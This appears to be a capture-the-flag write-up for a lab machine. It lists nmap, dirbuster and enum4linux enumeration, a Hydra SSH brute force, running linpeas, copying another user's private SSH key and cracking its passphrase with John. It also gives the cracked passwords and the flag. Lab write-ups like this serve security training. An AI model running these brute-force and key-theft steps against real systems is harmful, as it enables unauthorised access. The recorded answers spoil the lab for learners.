 Tools used:
 - Nmap
 - dirbuster
 - Hydra
 - LinPeas.sh

1. Scanning the target machine

 - `nmap -A -vv -Pn <target-ip>`

Exposed Ports:
 - 22
 - 139 & 445 (SMB)
 - 80
 - 8080

2. Enumerate the services running (dirbuster/gobuster)

- `dirbuster -l /path/to/wordlist/file/wordlist.txt http://<target-ip>`

Discovered Paths:
 - /development/
 - /development/dev.txt
 - /development/j.txt

Files in /development info:
 - port 80 is hosted on apache
 - one employee has a weak password, so it might be crackable(ssh possibly)

3. Enumerate SMB with enum4linux
`enum4linux -a <IP_address>` < enumerate everything

Discovered info:
 - kay
 - jan
 - //10.10.168.206/Anonymous (smb share)
 - Samba Server 4.3.11-Ubuntu


5. Bruteforce the ssh connection with Hydra

`hydra -l username-found -P /usr/share/wordlists/rockyou.txt  10.10.168.206 ssh -t 32`
```bash
 -l specifies a user name
 -L specifies a user wordlist
 -p specifies a password
 -P specifies a password list
 -t number of simultaneous threads(default 32)
```

 Discovered Info:
  - usr: jan | password: armando


6. Enumerate the target machine(from the inside)
 - `scp linpeas.sh jan@10.10.168.206:/dev/shm` < send LinEnum to  [ref: https://github.com/peass-ng/PEASS-ng/releases/tag/20240623-7d729c04]
 - chmod +x /dev/shm/linpeas.sh
 - ./linpeas.sh

Discovered info:
- kay has an exposed private rsa key

7. crack kay's priv key passphrase
- `scp jan@10.10.168.206:/home/kay/.ssh/id_rsa .`
- `ssh2john id_rsa > id_rsa.hash`
- `john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt`

Discovered Info:
 - key passphrase: beeswax



8. Got the flag inside kay's session
 - heresareallystrongpasswordthatfollowsthepasswordpolicy$$

